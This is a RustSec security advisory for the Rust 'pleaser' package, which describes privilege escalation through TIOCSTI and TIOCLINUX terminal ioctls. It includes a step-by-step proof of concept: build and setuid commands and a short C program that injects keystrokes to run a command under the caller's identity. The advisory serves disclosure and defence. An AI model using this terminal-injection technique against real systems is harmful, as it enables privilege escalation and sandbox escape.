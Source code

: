 ```toml
[advisory]
id = "RUSTSEC-2023-0066"
package = "pleaser"
aliases = ["CVE-2023-46277", "GHSA-cgf8-h3fp-h956"]
date = "2023-04-29"
url = "https://gitlab.com/edneville/please/-/issues/13"
categories = ["privilege-escalation"]
keywords = []
cvss = "CVSS:3.1/AV:L/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N"

[versions]
patched = []

[affected]
```

# Vulnerable to privilege escalation using ioctls TIOCSTI and TIOCLINUX

please is vulnerable to privilege escalation using ioctls TIOCSTI
and TIOCLINUX on systems where they are not disabled.

Here is how to see it in action:

```
$ cd "$(mktemp -d)"
$ git clone --depth 1 https://gitlab.com/edneville/please.git
$ cd please/
$ git rev-parse HEAD  # f3598f8fae5455a8ecf22afca19eaba7be5053c9
$ cargo test && cargo build --release
$ echo "[${USER}_as_nobody]"$'\nname='"${USER}"$'\ntarget=nobody\nrule=.*\nrequire_pass=false' | sudo tee /etc/please.ini
$ sudo chown root:root ./target/release/please
$ sudo chmod u+s ./target/release/please
$ cat <<TIOCSTI_C_EOF | tee TIOCSTI.c
#include <sys/ioctl.h>

int main(void) {
  const char *text = "id\n";
  while (*text)
    ioctl(0, TIOCSTI, text++);
  return 0;
}
TIOCSTI_C_EOF
$ gcc -std=c99 -Wall -Wextra -pedantic -o /tmp/TIOCSTI TIOCSTI.c
$ ./target/release/please -u nobody /tmp/TIOCSTI  # runs id(1) as ${USER} rather than nobody
```

Please note that:

This affects both the case where root wants to drop privileges as well when non-root wants to gain other privileges.
